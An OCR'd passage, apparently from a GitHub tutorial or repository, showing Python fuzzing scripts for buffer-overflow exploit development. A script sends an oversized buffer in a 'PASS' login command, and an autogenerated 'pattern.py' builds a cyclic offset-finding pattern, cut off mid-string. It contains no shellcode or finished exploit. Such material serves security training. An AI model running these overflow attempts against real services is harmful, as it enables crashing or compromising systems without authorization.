 ```python
    s.send(str2b('PASS ' + buffer + '\r\n'))
    s.recv(1024)
    s.send(str2b('QUIT\r\n'))
    print('done')
except:
    print('Could not connect')
s.close()
```

**`pattern.py`**
```python
#!/usr/bin/env python
"""fuzza autogenerated."""

from __future__ import print_function
import socket

def str2b(data):
    """Unescape P2/P3 and convert to bytes if Python3."""
    # Python2: Unescape control chars
    try:
        return data.decode('string_escape')
    except AttributeError:
        pass
    except UnicodeDecodeError:
        pass
    # Python3: Unescape control chars and convert to byte
    try:
        return data.encode("utf-8").decode('unicode-escape').encode("latin1")
    except UnicodeDecodeError:
        pass

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

pattern = (
    "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9"
    "Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9"
    "Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9"
    "Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9"
    "Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9"
    "Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9"
    "As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9"
    "Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9"
    "Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9"
    "Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9"
    "Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9"
    "Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9"
    "Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9"
    "Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9"
    "Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9"
    "Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9"
    "Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9"
    "Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9"
    "Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9"
    "Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9"
    "Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9"
    "Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9"
    "Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9"
    "Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9"
    "Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9"
    "Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9"
    "Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9"
    "Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9"
    "Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9"
```